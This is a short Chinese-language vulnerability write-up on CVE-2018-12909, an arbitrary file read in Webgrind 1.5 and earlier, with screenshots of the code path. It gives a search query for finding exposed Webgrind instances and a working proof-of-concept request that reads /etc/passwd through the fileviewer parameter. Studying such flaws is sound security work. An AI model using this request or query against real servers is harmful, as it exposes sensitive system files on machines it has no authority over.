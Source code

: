 # Webgrind fileviewer.phtml 任意文件读取漏洞 CVE-2018-12909

## 漏洞描述

Webgrind是一套PHP执行时间分析工具。其中Webgrind 1.5版本中存在安全漏洞，该漏洞源于程序依靠用户输入来显示文件。攻击者可以通过漏洞读取服务器敏感文件

## 漏洞影响

```
Webgrind <= 1.5
```

## 网络测绘

```
app="Webgrind"
```

## 漏洞复现

主页面

![image-20220829102424295](images/202208291024336.png)

方法调用在 index.php 中

![image-20220829102436964](images/202208291024049.png)

当参数为 fileviewer 时，将参数传递包含在文件 templates/fileviewer.phtml 中

![image-20220829102450812](images/202208291024892.png)

参数 file 传入 `fileviewer.phtml` 通过函数 `highlight_file` 显示在页面中， 验证POC

```
/index.php?op=fileviewer&file=/etc/passwd
```

![image-20220829102503956](images/202208291025034.png)
